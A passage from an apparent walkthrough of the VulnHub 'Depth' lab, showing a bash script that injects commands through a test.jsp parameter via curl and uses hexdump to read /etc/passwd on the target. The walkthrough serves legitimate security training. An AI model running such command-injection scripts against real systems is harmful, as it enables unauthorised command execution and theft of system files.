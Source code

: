I was able to leverage on `hexdump` to act like `cat` to display `/etc/passwd` like so.

![screenshot-2](/assets/images/posts/depth-walkthrough/screenshot-2.png)

I wrote `cat.sh` to extract and display the printable ASCII characters.

{% highlight bash linenos %}
# cat cat.sh
#!/bin/bash

_HOST=192.168.100.4
_PORT=8080
_TEST=test.jsp
_PATH=path
__CAT="hexdump -C "
__CMD="${__CAT}$1"

urlencode() {
    old_lc_collate=$LC_COLLATE
    LC_COLLATE=C

    local length="${#1}"
    for (( i = 0; i < length; i++ )); do
        local c="${1:i:1}"
        case $c in
            [a-zA-Z0-9.~_-]) printf "$c" ;;
            *) printf '%%%02X' "'$c" ;;
        esac
    done

    LC_COLLATE=$old_lc_collate
}

CMD=$(urlencode "$__CMD")

curl -s $_HOST:$_PORT/$_TEST?$_PATH=$CMD \
| grep '|' \
| cut -d'|' -f2 \
| tr -d '\n' \
| tr '.' '\n'
{% endhighlight %}


[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com